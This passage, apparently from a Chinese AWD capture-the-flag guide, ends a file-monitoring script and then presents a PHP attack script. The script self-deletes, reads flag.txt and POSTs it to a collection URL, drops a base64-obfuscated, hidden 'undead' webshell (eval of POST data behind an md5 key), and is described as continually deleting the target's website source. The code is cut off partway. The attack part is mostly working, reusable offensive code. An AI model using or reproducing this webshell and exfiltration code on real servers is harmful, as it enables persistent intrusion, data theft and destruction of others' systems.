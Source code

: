 ```python
GetHash()
while True:
    print(time.ctime()+"   安全")
    FileMonitor()
    time.sleep(1)  # 监控间隔，按需修改
```

**AWD 线下赛攻击脚本：**

（1）内存马 & 自动获取刷新的 flag

该脚本功能：

1. 该脚本为内存脚本，访问一下就自删除，不留痕迹。

2. 自动读取 flag，并将 flag 提交到指定地址，会自动检测是否更新 flag，只有更新了 flag 才会提交，需要在脚本中修改 flag 物理路径。

3. 会生成不死马，不死马具有隐藏和欺骗功能。用蚁剑访问 http://xxx/.c403d59fea33113df44d465aeec336ab.php?key=ssr2021shuoshurenmd5，密码为 a。

木马原始代码如下（只要别人不知道 key，就没办法黑吃黑）：

```
<?php $key=$_GET["key"];
$keyhash=md5($key);
if($keyhash==="c403d59fea33113df44d465aeec336ab") {
    eval($_POST["a"]);
}
echo"file not find.";
?>
```

这个只作为备用连接，flag 正常自己提交过来的话就不用管。

4. 该脚本会不断删除目标的网站源码，别人扣分等于我们加分。

5. 脚本命名必须为 awd2021.php，若要修改的话需要同步修改下面代码中的文件名。

```
<?php
function send_post($url, $post_data) {
    $postdata = http_build_query($post_data);
    $options = array(
            'http' => array(
              'method' => 'POST',
              'header' => 'Content-type:application/x-www-form-urlencoded',
              'content' => $postdata,
              'timeout' => 15 * 60 
            )
          );
    $context = stream_context_create($options);
    $result = file_get_contents($url, false, $context);
    return $result;
}
$flag_tmp="flag{xxx}";
@unlink ("awd2021.php");
while (True) {
    $flag=system("cat flag.txt");
    $data=array(
          'flag' => $flag
        );
    if ($flag!=$flag_tmp) {
        send_post('http://127.0.0.1/getflag.php', $data);
    }
    $flag_tmp=$flag;
    $shell=base64_decode("PD9waHAgJGtleT0kX0dFVFsia2V5Il07CiRrZXloYXNoPW1kNSgka2V5KTsKaWYoJGtleWhhc2g9PT0iYzQwM2Q1OWZlYTMzMTEzZGY0NGQ0NjVhZWVjMzM2YWIiKSB7CglldmFsKCRfUE9TVFsiYSJdKTsKfQplY2hvImZpbGUgbm90IGZpbmQuIjsKPz4=");
    if (file_exists(".c403d59fea33113df44d465aeec336ab.php")==0) {
```